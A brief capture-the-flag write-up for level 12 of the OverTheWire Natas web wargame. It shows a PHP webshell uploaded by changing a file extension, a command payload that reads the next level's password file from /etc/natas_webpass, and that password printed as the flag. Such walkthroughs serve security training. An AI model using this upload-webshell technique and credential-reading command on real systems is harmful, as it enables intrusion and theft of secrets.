

# Natas Level 12 Solution

here we inject webshell, by changing the EXT of the tmp file we upload, as you can see below



then, we go to `upload/yw04l1863l.php` which is the url
```
http://natas12.natas.labs.overthewire.org/upload/yw04l1863l.php
```

and inject our payload, in this case: `?x=cd /etc/natas_webpass/; cat natas13`

**Flag:** ***`trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC`*** 